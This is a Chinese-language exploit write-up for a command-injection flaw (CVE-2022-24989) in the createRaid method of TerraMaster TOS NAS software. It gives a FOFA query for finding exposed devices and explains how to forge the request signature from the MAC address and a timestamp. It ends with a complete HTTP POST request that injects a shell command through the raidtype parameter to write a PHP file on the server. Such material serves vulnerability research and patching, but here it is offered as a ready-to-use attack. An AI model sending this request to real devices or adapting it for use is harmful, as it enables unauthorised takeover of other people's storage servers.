


# TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

```
TerraMaster TOS < 4.2.31
```

## FOFA

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登录页面



查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数


注意这一行代码并跟踪 `volume_make_from_disks` 方法

```
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```


可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令


回到 `mobile.class.php` 文件开头的定义

```
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义


```
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表




下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`


跟进方法 `get_mac_addr`


这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`


实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566


回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 `CVE-2022-24990` 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息


在发送请求包写入 php恶意文件

```
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```


访问写入的文件

